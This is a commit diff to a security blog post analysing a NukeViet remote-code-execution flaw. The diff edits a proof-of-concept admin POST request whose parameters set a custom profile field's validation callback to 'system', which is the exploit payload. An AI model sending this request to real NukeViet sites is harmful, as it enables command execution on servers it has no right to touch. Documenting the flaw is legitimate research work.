

Before and after one commit to 0xki29/blog, a Jekyll site: the page built from _posts/2026-08-30-nukeviet-arbitrary-callback-rce.md, in a window 1280 px wide and 900 px high, scrolled down 5043 px. Shown: the part 151-439 px from the top of the window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add post: NukeViet arbitrary callback RCE analysis

````diff
--- a/_posts/2026-08-30-nukeviet-arbitrary-callback-rce.md
+++ b/_posts/2026-08-30-nukeviet-arbitrary-callback-rce.md
@@ -185,8 +185,10 @@ Referer: http://127.0.0.1:8080/admin/index.php?nv=users&op=fields
 Cookie: <cookie>
 Connection: keep-alive
 
-field=0&title=PoC%2BRCE&description=PoC&show_register=1&user_editable=1&show_profile=1&field_type=textbox&class=input&editor_width=100%25&editor_height=100px&match_type=none&default_value=&min_length=0&max_length=255&number_type=1&default_value_number=0&min_number_length=0&max_number_length=1000&current_date=0&default_date=&min_date=&max_date=&choicetypes=field_choicetypes_sql&field_choice%5B1%5D=&field_choice_text%5B1%5D=&system=0&fid=&fieldid=&save=1
+save=1&fid=0&system=0&title=PoC+RCE&description=PoC&required=0&show_register=1&user_editable=1&show_profile=1&class=&field_type=textbox&field=nv_poc_rce&match_type=callback&match_callback=system&min_length=0&max_length=100&default_value=
 ```
+
+
 
 | Tham số          | Giá trị      | Vì sao                                                                                                                                                                     |
 | ---------------- | ------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
````
